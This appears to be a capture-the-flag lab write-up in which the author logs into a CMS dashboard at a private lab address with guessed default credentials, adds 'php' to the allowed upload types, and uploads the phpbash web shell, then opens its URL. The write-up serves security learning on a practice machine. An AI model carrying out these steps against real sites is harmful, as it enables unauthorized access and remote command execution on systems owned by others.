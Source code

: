 
# Exploitation

trying 
```
admin
admin
```


```
Unable to complete action: your IP address has been banned. Please contact the administrator of this site for more information.
```

guess they were not kidding, rebooted the machine and tried more credentials

```
admin
password
```

http://10.10.210.78:85/app/castle/index.php/dashboard/welcome

![[admin dash.png]]


https://vulners.com/hackerone/H1:768322

following the vuln report, we navigate to allowed file types

```
http://10.10.210.78:85/app/castle/index.php/dashboard/system/files/filetypes
```

we add php and save, bringin the allowed files types to be 

```
flv, jpg, gif, jpeg, ico, docx, xla, png, psd, swf, doc, txt, xls, xlsx, csv, pdf, tiff, rtf, m4a, mov, wmv, mpeg, mpg, wav, 3gp, avi, m4v, mp4, mp3, qt, ppt, pptx, kml, xml, svg, webm, ogg, ogv, php
```

now we navigate to files

```
http://10.10.210.78:85/app/castle/index.php/dashboard/files/search
```

click on upload file

I am uploading phpbash

![[file upload.png]]

![[upload complete.png]]

visit the url

http://10.10.210.78:85/app/castle/application/files/6317/3227/4955/phpbash.php
